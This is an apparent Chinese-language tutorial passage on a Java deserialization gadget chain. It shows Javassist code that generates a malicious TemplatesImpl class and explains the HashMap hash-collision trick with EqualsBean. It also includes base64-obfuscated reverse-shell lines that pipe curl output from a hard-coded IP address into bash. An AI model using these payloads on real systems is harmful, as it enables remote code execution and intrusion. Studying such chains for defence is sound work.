GenerateEvilByJavaassist.java

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

public class GenerateEvilByJavaassist {
    public static byte[] generate() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -na Calculator\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }
}

反弹shell的话用bash -c {echo,Y3VybCA0Ny45My4yNDguMjIx772cYmFzaA==}|{base64,-d}|{bash,-i}
最小的命令：Runtime.getRuntime().exec("/bin/bash -c curl${IFS}47.93.248.221|bash");
```

至于为什么要这样去写（这里的前提是aa和bB的hashcode相同）

```
HashMap map1 = new HashMap();
HashMap map2 = new HashMap();
map1.put("aa",templates);
map1.put("bB",bean);
map2.put("aa",bean);
map2.put("bB",templates);
HashMap map = new HashMap();
map.put(map1,"");
map.put(map2,"");
```

首先，我们知道，当key相同的时候会去调用equals方法，但是呢，是需要前提条件的，hashMap和hashTable一样，我们put了两个对象，拿hashTable举例

![image-20230311191858275](images/11.png)

这里我们虽然会去获取上一个添加进来的entry，但是同样要去得到一个index，如果只添加一个值，tab[index]仍然为空，是不会进入到调用equals方法的地方

然后为什么要这样对应呢，原因是，hashmap很巧的是在HashMap的equals方法当中,当对象大于1时会转而调用父类`java.util.AbstractMap#equals`

![image-20230311192159975](images/12.png)

这里是跟进第二次put进来的hashmap调用的，所以value需要是EqualsBean对象，而第一个相对应的则是TemplatesImpl对象

所以有了

```
map1.put("aa",templates);
map2.put("aa",bean);
```
